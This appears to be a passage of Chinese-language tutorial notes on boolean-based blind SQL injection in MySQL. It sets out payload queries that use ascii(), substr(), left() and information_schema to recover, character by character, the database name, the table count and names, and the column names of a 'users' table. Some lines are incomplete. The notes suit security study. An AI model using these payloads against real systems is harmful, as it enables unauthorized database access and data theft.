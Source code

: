     `SELECT * from users WHERE id = 1 and ascii(substr(database(),8,1))`

    ###### 求当前数据库名

    思路：利用`left` 函数，从左至右截取字符串

    截取字符判断字符的`ascii`码，从而确定字符

    -- 从左至右截取一个字符

    `SELECT * from users WHERE id = 1 and (left(database(),1)='s')`

    -- 从左至右截取两个字符

    `SELECT * from users WHERE id = 1 and (left(database(),2)='se')`

    `SELECT * from users WHERE id = 1 AND (ASCII(SUBSTR(database(),1,1)) = 115)`

    `SELECT * from users WHERE id = 1 AND (ASCII(SUBSTR(database(),2,1)) = 101)`

    使用`>`，`<` 符号来比较查找，找到一个范围，最后再确定

    ###### 求当前数据库存在的表的数量

    `SELECT * from users WHERE id = 1 AND `

    ``(select count(table_name) from information_schema.`TABLES`; where table_schema = database()) = 4``

    ###### 求当前数据库表的表名长度

    - length

    ``SELECT * from users WHERE id = 1 AND (LENGTH((select table_name from information_schema.`TABLES` where table_schema = database() LIMIT 0,1))) = 6``
    
    - substr

    ``SELECT * from users WHERE id = 1 AND ASCII(SUBSTR((select table_name FROM information_schema.`TABLES` where table_schema = database() LIMIT 0,1),6,1))``

    ###### 求表名

    ``SELECT * from users WHERE id = 1 AND ASCII(SUBSTR((select table_name FROM information_schema.`TABLES` where table_schema = database() LIMIT 0,1),1,1)) = 101``

    ``SELECT * from users WHERE id = 1 AND ASCII(SUBSTR((select table_name FROM information_schema.`TABLES` where table_schema = database() LIMIT 0,1),2,1)) = 109``

    ###### 求指定表中列的数量

    ``SELECT * from users WHERE id = 1 AND (select count(column_name) from information_schema.columns where table_name = "users") = 3``

    ###### 求指定表中列的长度

    ``SELECT * from users WHERE id = 1 AND ASCII(SUBSTR((select column_name from information_schema.columns where table_name = "users" limit 0,1),2,1))``

    ###### 求指定表中的列名

    ``SELECT * from users WHERE id = 1 AND ASCII(SUBSTR((select column_name from information_schema.columns where table_name = "users" limit 0,1),1,1)) = 105``
